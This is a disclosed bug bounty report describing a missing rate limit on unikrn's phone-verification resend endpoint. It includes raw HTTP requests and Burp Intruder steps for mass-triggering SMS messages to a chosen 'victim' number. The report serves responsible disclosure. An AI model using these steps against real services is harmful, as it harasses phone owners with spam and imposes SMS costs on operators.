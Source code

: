 # Improper validation at Phone verification (possible cost increase + SMS SPAM attack)

## Report Details
- **Report ID**: 263010
- **URL**: https://hackerone.com/reports/263010
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-08-24T14:15:10.294Z
- **Disclosed**: 2017-09-24T21:28:23.656Z

## Reporter
- **Username**: luciann
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report! **Please add the affected domain name in the Title of the report.**

**Summary:** 
Improper validation at Phone verification is allowing an attacker to exhaust the SMS delivery system.

**Description:** 
Improper validation at Phone verification is allowing an attacker to exhaust the SMS delivery system probably increasing the cost of the subscription for that SMS service.  

Also this can be used as a SMS SPAM Attack! (I am spamming myself at the moment at a rate of 1 SMS per 2 minutes .... using over a few hundred SMS's .. f*ck!)

## Browsers Verified In:

  * Chrome
  * Firefox

## Steps To Reproduce:

1. Log in
2. Enter mobile  number of you target/victim (you, if you want to rage a few minutes later)
3. Verify 
4. Intercept request of resend
5. Edit request

```
POST /apiv2/user/verifytelephone HTTP/1.1
Host: unikrn.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: https://unikrn.com/profile
Content-Type: application/json
Application-Version: v3.8.5-28-g570b4be
Content-Length: 60
Cookie: __cfduid=d4df1b78e117c6c9c5fd1fdd774c758ed1503574524; CW=hkp8at5qvoeijvet63q3iei9qcsn7dff
Connection: close

{"session_id":"lcso6bc6vv2jcf7ebukdfgrfm3s38v6a","resend":1}
```

6. Sent to intruder and grep "1" as follows:

```
POST /apiv2/user/verifytelephone HTTP/1.1
Host: unikrn.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: https://unikrn.com/profile
Content-Type: application/json
Application-Version: v3.8.5-28-g570b4be
Content-Length: 60
Cookie: __cfduid=d4df1b78e117c6c9c5fd1fdd774c758ed1503574524; CW=hkp8at5qvoeijvet63q3iei9qcsn7dff
Connection: close

{"session_id":"lcso6bc6vv2jcf7ebukdfgrfm3s38v6a","resend":§1§}
```

7. Make a count integer and send. 
8. DO NOT VALIDATE PHONE
9. Wait 22 minutes (no joke)
10. Edit account information
11. Save
12. SPAM + Possible cost increase

= !<number of resend/integer number in intruder>

## Supporting Material/References:

  * List of printscreen

## Fun Request moment:
  * Can you stop the SMS's? I am going to the mountain side and I will not have a charger or any kind of charging options.


## Attachments
- photo_2017-08-24_17-08-45.jpg
- photo_2017-08-24_17-08-40.jpg
- photo_2017-08-24_17-08-49.jpg
- photo_2017-08-24_17-09-34.jpg
- photo_2017-08-24_17-09-38.jpg
